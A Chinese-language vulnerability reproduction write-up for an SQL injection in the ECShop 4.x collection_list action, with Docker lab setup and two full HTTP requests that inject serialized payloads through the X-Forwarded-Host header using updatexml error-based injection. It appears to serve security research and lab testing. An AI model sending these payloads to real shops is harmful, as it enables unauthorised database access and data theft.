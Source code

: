 # ECShop 4.x collection_list SQL注入

## 漏洞描述

ECShop是上海商派网络科技有限公司（ShopEx）旗下——B2C独立网店系统，适合企业及个人快速构建个性化网上商店，系统是基于PHP语言及MYSQL数据库构架开发的跨平台开源程序。

参考文章：

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## 环境搭建

执行以下命令启动 ECShop 4.0.6：

```
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`安装向导。数据库地址填写为`mysql`，用户名和密码均为`root`。

![image-20220222224056438](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222240560.png)

注册普通用户user。

![image-20220222224432161](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222244240.png)

## 漏洞复现

该漏洞的原理与[xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)类似，可以利用任意`insert_`函数来实现SQL注入。

有多种`insert_`函数可以使用。例如，`insert_user_account`：

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```

![image-20220222225322409](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222253558.png)

请注意，您应该首先以普通用户身份登录。

`insert_pay_log`用作 POC ：

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close
```

![image-20220222225358070](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222253211.png)

